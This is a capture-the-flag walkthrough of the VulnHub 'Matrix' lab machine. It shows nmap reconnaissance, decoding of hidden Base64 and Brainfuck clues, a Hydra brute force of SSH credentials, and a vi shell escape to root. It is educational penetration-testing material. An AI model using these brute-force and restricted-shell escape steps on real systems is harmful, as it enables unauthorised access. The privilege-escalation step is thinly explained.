




```text
███╗   ███╗ █████╗ ████████╗██████╗ ██╗██╗  ██╗
████╗ ████║██╔══██╗╚══██╔══╝██╔══██╗██║╚██╗██╔╝
██╔████╔██║███████║   ██║   ██████╔╝██║ ╚███╔╝
██║╚██╔╝██║██╔══██║   ██║   ██╔══██╗██║ ██╔██╗
██║ ╚═╝ ██║██║  ██║   ██║   ██║  ██║██║██╔╝ ██╗
╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═╝╚═╝╚═╝  ╚═╝
```


---

## 🧠 Machine Information

| Item        | Value            |
| ----------- | ---------------- |
| Name        | Matrix           |
| Platform    | VulnHub          |
| Attacker OS | Parrot OS        |
| Target IP   | 192.168.23.163   |
| Goal        | Root the machine |

---

## 🔍 Reconnaissance

We begin by scanning the local network to identify live hosts.

```bash
nmap 192.168.23.1-255
```

Target discovered with the following open ports:

* **22/tcp** – SSH
* **80/tcp** – HTTP
* **31337/tcp** – Hidden HTTP service

```bash
nmap -p- -sV -A 192.168.23.163
```



---

## 🌐 Web Enumeration

The HTTP service on port 80 appeared normal. No useful data was found via:

* `robots.txt`
* Source code inspection

However, port **31337** revealed a hidden webpage.

```text
http://192.168.23.163:31337
```


---

## 🔐 Decoding the Matrix

Inside the source code, a suspicious Base64 string was discovered.

```text
ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=
```

Decoded result:

```bash
echo "Then you'll see, that it is not the spoon that bends, it is only yourself." > Cipher.matrix
```

Using this filename led to a downloadable file: **Cypher.matrix**.



---

## 🧬 Brainfuck Decoding

The contents consisted of symbols like `+ - < > [ ]`, indicating **Brainfuck**.

After decoding, the message revealed:

```text
You can enter into matrix as guest, with password k1ll0rXX
```

⚠️ Last two characters were missing.

---

## ⚔️ Exploitation

A brute-force attack was performed using **Hydra**.

```bash
hydra -l guest -P john.txt 192.168.23.163 ssh
```

✅ Valid credentials found:

```text
guest : k1ll0r7n
```

SSH access gained:

```bash
ssh guest@192.168.23.163
```



---

## ⬆️ Privilege Escalation

The shell was restricted, but enumeration revealed access to the **vi** editor.

Using a known escape technique:

```vim
:!/bin/bash
```

This spawned a **root shell**.



The flag was located in the `/root` directory.

---

## 🏁 Conclusion

This machine focuses on:

* Hidden services
* Creative encoding (Base64 + Brainfuck)
* Brute-force logic
* Classic editor-based privilege escalation

> *“It is not the system that bends, it is only yourself.”*

---

## ⚠️ Disclaimer

This writeup is for **educational purposes only**. Practice ethical hacking responsibly and only on systems you own or have permission to test.

---

### 👤 Author

**Jai Agrawal**
Cybersecurity | Pentesting | CTFs
